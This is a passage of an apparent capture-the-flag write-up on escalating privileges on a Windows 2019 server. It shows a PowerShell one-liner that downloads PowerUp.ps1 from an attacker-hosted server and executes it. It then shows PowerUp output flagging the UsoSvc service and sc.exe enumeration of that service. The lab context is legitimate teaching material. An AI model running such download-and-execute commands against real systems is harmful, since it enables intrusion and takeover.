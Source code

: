# Privilege Escalation

Now, the fun begins! As a habit, I always pull the systeminfo once I have a low-level shell which sometimes returns some goodies and easy wins, however, this was a 2019 server with hotfixes installed so it seemed unlikely that there was going to be a kernel exploit or anyting of the sort here. 

## PowerUp

Before spending time performing manual enumeration I decided to try to run PowerUp.ps1 to see if it returned anything, this is a great script available [here.](https://github.com/HarmJ0y/PowerUp/blob/master/PowerUp.ps1)

I copied the raw contents of the script into a new file called PowerUp.ps1 and added a line to the very bottom of the script of 'Invoke-AllChecks', I made sure that the script was in the same directory that my Python server was running from and then executed the following command on the victim machine:

    IEX((New-Object Net.WebClient).DownloadString('http://10.10.14.20:800/PowerUp.ps1'))

This should grab the file and execute it all in one command, the results should look similar to:

    WARNING: [!] PowerUp is written for PowerShell version 2.0
	WARNING: [!] For proper behavior, launch powershell.exe with the '-Version 2' flag
	WARNING: This version of Windows not supported by Invoke-FindPathDLLHijack
	
	[*] Running Invoke-AllChecks
	[*] Checking for unquoted service paths...
	[*] Checking service executable permissions...
	[*] Checking service permissions...
	[*] Use 'Invoke-ServiceUserAdd' to abuse
	[+] Vulnerable service: UsoSvc - C:\Windows\system32\svchost.exe -k netsvcs -p
	[*] Checking for unattended install files...
	[*] Checking %PATH% for potentially hijackable service .dll locations...
	[*] Checking for AlwaysInstallElevated registry key...
    [*] Checking for Autologon credentials in registry...

PowerUp highlights that there may be a vulnerable service that can be exploited, let's take another look at this and perform some manual enumeration on the service to make sure.

## Service Enumeration

To get more information about this service I ran SC QC against it, I had to call the full path of SC since I was in a PowerShell session:

    PS C:\Users\mssql-svc> C:\Windows\system32\sc.exe qc UsoSvc
	C:\Windows\system32\sc.exe qc UsoSvc
	[SC] QueryServiceConfig SUCCESS
	
	SERVICE_NAME: UsoSvc
	        TYPE               : 20  WIN32_SHARE_PROCESS 
	        START_TYPE         : 2   AUTO_START  (DELAYED)
	        ERROR_CONTROL      : 1   NORMAL
	        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
	        LOAD_ORDER_GROUP   : 
	        TAG                : 0
	        DISPLAY_NAME       : Update Orchestrator Service
	        DEPENDENCIES       : rpcss
    SERVICE_START_NAME : LocalSystem

